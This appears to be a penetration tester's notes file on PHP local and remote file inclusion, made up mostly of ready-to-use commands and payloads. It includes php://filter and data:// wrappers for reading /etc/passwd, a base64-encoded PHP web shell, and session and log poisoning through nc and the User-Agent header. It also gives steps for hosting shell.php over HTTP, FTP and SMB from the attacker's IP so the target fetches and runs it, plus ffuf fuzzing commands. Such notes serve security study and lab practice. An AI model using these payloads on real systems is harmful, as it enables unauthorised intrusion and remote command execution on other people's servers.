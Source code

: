 #FI 
![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

##### Check if wrappers are supported
To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.
```
allow_url_include = On
```

#php### PHP Wrappers
* https://www.php.net/manual/en/wrappers.php.php
* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `php://filter/read=convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`



![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

###### Session poisoning files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL with LFI vulnerability to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
[[log poison]]
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```
or poison User-Agent header


Then using LFI vulnerability to access the log file.
log files:
`/var/log/apache2/access.log`
`C:\xampp\apache\logs\`
`/var/log/nginx/ `
`C:\nginx\log\`

or for User-Agent header:
```
Tip: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.
```

other logs:
    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log

LFI fuzz
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

##### LFI
[[LFI]]
`dataserver=file:///etc/passwd`

#### RFI
[[RFI]]
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Verify RFI
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
or
`try and include a URL`, and see if we can get its content

RCE with RFI [[RCE]]
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

python3 -m http.server 8000
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:8000/shell.php&cmd=id
```
or host our script via ftp
```shell
sudo python -m pyftpdlib -p 21

curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

host via smb [[Pentest/Enumeration/services/SMB]]
```bash
impacket-smbserver -smb2support share $(pwd)
```
open
```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

RCE via file upload [[RCE]]
1. upload a php script (look File upload section)
2. use LFI methos to  `?language=./uploads/shell.gif&cmd=id`

LFI fuzzing
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters
/index.php?language=FUZZ
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

fuzzing server dirs [[ffuf]]
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

fuzz logs and configs of server
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

LIF automation
https://github.com/D35m0nd142/LFISuite
https://github.com/OsandaMalith/LFiFreak
https://github.com/mzfr/liffy